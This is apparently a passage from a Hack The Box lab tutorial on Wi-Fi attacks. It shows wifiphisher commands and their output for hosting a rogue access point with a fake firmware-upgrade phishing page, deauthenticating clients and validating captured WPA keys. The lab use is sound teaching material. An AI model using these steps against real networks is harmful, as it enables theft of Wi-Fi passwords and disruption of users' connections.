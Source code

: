 ```shell
ls

HTB-01.cap

```

We can stop the monitor mode on wlan0mon interface

```shell
airmon-ng stop wlan0mon

PHY	Interface	Driver		Chipset

phy2	wlan0mon	mac80211_hwsim	HTB Chipset of 802.11 radio(s) for mac80211
		(mac80211 station mode vif enabled on [phy2]wlan0)
		(mac80211 monitor mode vif disabled for [phy2]wlan0mon)
phy3	wlan1		mac80211_hwsim	HTB Chipset of 802.11 radio(s) for mac80211
phy4	wlan2		mac80211_hwsim	HTB Chipset of 802.11 radio(s) for mac80211

```

Finally, to host a fake Access Point (AP) with a custom firmware page, we can execute the following command:

```shell
wifiphisher -aI wlan0 -eI wlan1 -p firmware-upgrade --handshake-capture HTB-01.cap -kN

Authorization required, but no authorization protocol specified
[*] Starting Wifiphisher 1.4GIT ( https://wifiphisher.org ) at 2025-01-18 22:07
[+] Timezone detected. Setting channel range to 1-13
[+] Selecting wlan1 interface for the deauthentication attack
[+] Selecting wlan0 interface for creating the rogue Access Point
[+] Changing wlan0 MAC addr (BSSID) to 00:00:00:44:12:0e
[+] Changing wlan0 MAC addr (BSSID) to 00:00:00:a8:34:e9
[*] Cleared leases, started DHCP, set up iptables

```

Here's a breakdown of the command:

| Argument | Description |
| --- | --- |
| `-aI wlan0` | This specifies the interface (wlan0) that will host the rogue AP. |
| `-eI wlan1` | This specifies the interface (wlan1) that will perform the deauthentication and DOS attack. |
| `-p firmware-upgrade` | This selects the phishing scenario, in this case, a fake firmware update page. |
| `--handshake-capture HTB-01.cap` | This option provides the path to the valid captured handshake file (HTB-01.cap), which will be used to check the correct WPA key when the victim connects to the rogue AP. |
| `-kN` | Prevents the attack from killing the NetworkManager, allowing you to maintain other network functionalities on the attacking machine. |

Once the target network is identified, we press `[Enter]` to select it. Wifiphisher then automatically performs the deauthentication attack, disconnecting clients currently connected to the target network. Afterward, the disconnected clients are redirected to the rogue access point, which is now broadcasting, making them attempt to reconnect.
